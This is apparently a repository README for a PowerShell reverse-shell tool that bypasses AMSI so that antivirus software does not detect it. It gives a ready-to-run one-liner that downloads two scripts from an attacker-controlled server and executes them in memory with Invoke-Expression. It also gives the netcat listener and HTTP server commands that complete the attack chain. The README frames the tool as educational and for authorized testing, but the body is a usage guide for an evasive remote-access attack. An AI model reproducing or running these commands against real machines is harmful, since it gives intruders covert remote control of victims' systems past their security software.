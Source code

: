 # PowerShell Reverse Shell with AMSI Bypass

This repository contains a PowerShell script to establish a reverse shell connection while bypassing AMSI (Antimalware Scan Interface) to evade detection by antivirus software. The script is designed for educational purposes and penetration testing in authorized environments.

---

## Table of Contents
1. [Description](#description)
2. [Requirements](#requirements)
3. [Usage](#usage)
4. [How It Works](#how-it-works)
5. [Why Linkin Park?](#why-linkin-park)
6. [Disclaimer](#disclaimer)

---

## Description

This project demonstrates how to:
1. Bypass AMSI to disable antivirus detection.
2. Download and execute a PowerShell reverse shell script from a remote server.
3. Establish a reverse shell connection to a specified IP and port.

The repository includes:
- `amsi.txt`: A script to bypass AMSI.
- `shell.ps1`: A PowerShell reverse shell script.

---

## Requirements

To use this project, you need:
- A Windows machine with PowerShell installed.
- A remote server to host the `amsi.txt` and `shell.ps1` files (e.g., a Python HTTP server).
- A listener on the attacker's machine to receive the reverse shell connection (e.g., `netcat`).

---

## Usage

### 1. Set Up the HTTP Server
Host the `amsi.txt` and `shell.ps1` files on a remote server. You can use a Python HTTP server for this:

```bash
python -m http.server 8000
```

### 2. Start a Listener
On the attacker's machine, start a listener to receive the reverse shell connection:

```bash
rlwrap -cAr nc -lvp 443
```

### 3. Execute the Payload
On the target machine, run the following command in PowerShell or CMD:

```cmd
powershell -ExecutionPolicy Bypass -NoProfile -Command "Invoke-Expression (Invoke-WebRequest -Uri 'http://<SERVER_IP>:8000/amsi.txt' -UseBasicParsing | Select-Object -ExpandProperty Content); $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri 'http://<SERVER_IP>:8000/shell.ps1' -UseBasicParsing).Content); Invoke-Expression $scriptContent"
```

Replace `<SERVER_IP>` with the IP address of your HTTP server.

---

## How It Works

1. **AMSI Bypass**:
   - The `amsi.txt` script disables AMSI, allowing the execution of scripts that would otherwise be blocked by antivirus software.

2. **Reverse Shell**:
   - The `shell.ps1` script establishes a TCP connection to the attacker's machine and provides an interactive shell.

3. **Remote Execution**:
   - The payload is downloaded and executed directly in memory, reducing the chances of detection by endpoint protection tools.

---

## Why Linkin Park?

The variables in the `shell.ps1` script are named after members of the band **Linkin Park** as a tribute to their music and legacy. Here's the breakdown:
- `$chester`: Chester Bennington, the iconic lead vocalist.
- `$mike`: Mike Shinoda, the band's co-lead vocalist, rapper, and multi-instrumentalist.
- `$shinoda`: Another nod to Mike Shinoda.
- `$bennington`: Chester Bennington's last name.
- `$hahn`: Joe Hahn, the band's DJ and creative director.
- `$phoenix`: Phoenix Farrell, the bassist.
- `$bourdon`: Rob Bourdon, the drummer.

This naming convention adds a personal touch to the script while maintaining its functionality.

---

## Disclaimer

This project is intended for educational and authorized penetration testing purposes only. Do not use this tool for illegal or malicious activities. The author is not responsible for any misuse of this software. Always ensure you have proper authorization before using this tool in any environment.
